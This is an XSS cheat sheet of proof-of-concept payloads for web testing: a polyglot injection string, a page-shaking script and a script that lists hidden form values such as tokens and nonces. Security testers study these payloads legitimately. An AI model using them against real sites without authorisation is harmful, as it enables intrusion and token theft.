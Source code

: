 ## Additional Resources

- [PayloadsAllTheThings - XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [XSS Filter Evasion Cheat Sheet](https://ocholuo.github.io/posts/XSS-Filter-Evasion-Cheat-Sheet/)# XSS (Cross-Site Scripting) Cheat Sheet

## Polygot Test XSS Payload

This test payload can execute in multiple contexts including HTML, script strings, JavaScript, and URLs.

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

[Source](https://brutelogic.com.br/blog/wp-content/uploads/2021/09/Brute-XSS-Cheat-Sheet-Sample.pdf)

## JavaScript Injections

This section covers payloads needed to prove XSS vulnerability. These payloads can be combined to create unique payloads according to language syntax. Most of the payloads shown here can also be used in HTML injection vectors.

### Shaking Visible Elements

Use this payload to shake all visible elements of the page as a visual indication of the vulnerability.

```javascript
setInterval(k => { 
  b = document.body.style; 
  b.marginTop = (b.marginTop == '4px') ? '-4px' : '4px'; 
}, 5);
```

### Alert Hidden Values

Use this payload to prove that all hidden HTML values like tokens and nonces in the target page can be stolen.

```javascript
f = document.forms;
for (i = 0; i < f.length; i++) {
  e = f[i].elements;
  for (n in e) {
    if (e[n].type == 'hidden') {
      alert(e[n].name + ': ' + e[n].value);
    }
  }
}
```
